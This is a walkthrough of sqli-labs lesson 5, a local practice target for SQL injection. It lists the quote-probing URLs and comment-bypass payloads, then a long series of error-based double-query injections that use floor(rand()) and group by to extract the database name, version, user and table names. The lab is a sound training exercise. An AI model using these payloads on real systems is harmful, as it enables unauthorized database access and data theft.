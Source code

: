 #### 5. Lesson 5 - ``Double injection - Single Quote - String``

```
http://localhost/sqli-labs/Less-5/
http://localhost/sqli-labs/Less-5/?id=1
http://localhost/sqli-labs/Less-5/?id=2
http://localhost/sqli-labs/Less-5/?id=3
```

![](images/5/1.png)

![](images/5/2.png)

```
http://localhost/sqli-labs/Less-5/?id=1'
```

![](images/5/3.png)

```
http://localhost/sqli-labs/Less-5/?id=1\
```

![](images/5/4.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\' LIMIT 0,1' at line 1
```

```
''1\' LIMIT 0,1' at line 1
'   '1\' LIMIT 0,1   '
'1\' LIMIT 0,1
1\
```

```mysql
select col-1, col-2, col-3 from table where id = '   3'OR '1   '
```

```
http://localhost/sqli-labs/Less-5/?id=3'OR '1
http://localhost/sqli-labs/Less-5/?id=3'--+
```

![](images/5/5.png)

```mysql
select database();
select(select database());
select concat((select database()));
select concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a);
select concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a)a;
select concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a, floor(rand()*2))a;
select concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns;
select concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.tables;
select count(*), concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.tables group by a;
select count(*), concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select version()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select user()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema=database() limit 1,0), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema=database() limit 1,1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema=database() limit 2,1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema=database() limit 3,1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema=database() limit 4,1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
```

![](images/5/6.png)

![](images/5/7.png)

![](images/5/8.png)

![](images/5/9.png)

![](images/5/10.png)

![](images/5/11.png)

![](images/5/12.png)

![](images/5/13.png)

![](images/5/14.png)

![](images/5/15.png)

![](images/5/16.png)

![](images/5/17.png)

![](images/5/18.png)

![](images/5/19.png)

![](images/5/20.png)

![](images/5/21.png)

![](images/5/22.png)